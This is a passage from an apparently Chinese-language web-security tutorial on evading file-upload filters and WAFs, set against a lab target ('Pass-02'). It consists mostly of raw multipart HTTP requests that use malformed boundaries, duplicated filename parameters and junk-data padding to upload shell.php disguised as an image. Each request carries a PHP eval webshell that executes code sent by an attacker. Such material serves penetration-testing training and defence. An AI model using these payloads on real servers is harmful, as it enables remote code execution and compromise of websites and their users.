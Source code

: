 下面这样也是可以正常上传的

```
------WebKitFormBoundarymeEzpUTMsmOfjwAA
------WebKitFormBoundarymeEzpUTMsmOfjwAA--
------WebKitFormBoundarymeEzpUTMsmOfjwAA;123
------WebKitFormBoundarymeEzpUTMsmOfjwAA
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: image/png

<?php @eval($_POST['hack']); ?>
------WebKitFormBoundarymeEzpUTMsmOfjwAA
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundarymeEzpUTMsmOfjwAA--
```

**filename重复**

最终上传成功的文件名是shell.php。但是由于解析文件名时,会解析到第一个。正则默认都会匹配到第一个

```
Content-Disposition: form-data; name="upload_file"; filename="shell.jpg filename="shell.jpg"; filename="shell.jpg"; filename="shell.jpg"; filename="shell.jpg"; filename="shell.jpg"; filename="shell.php";
```

###### **数据溢出**

**name与filename之间插入垃圾数据**

```
POST /Pass-02/index.php HTTP/1.1
Host: hackrock.com:813
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzEHC1GyG8wYOH1rf
Connection: close

------WebKitFormBoundaryzEHC1GyG8wYOH1rf
Content-Disposition: form-data; name="upload_file"; fbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b8dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf; 
filename="shell.php"
Content-Type: image/png

<?php @eval($_POST['x']);?>

------WebKitFormBoundaryzEHC1GyG8wYOH1rf
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryzEHC1GyG8wYOH1rf--
```

**boundary字符串中加入垃圾数据**
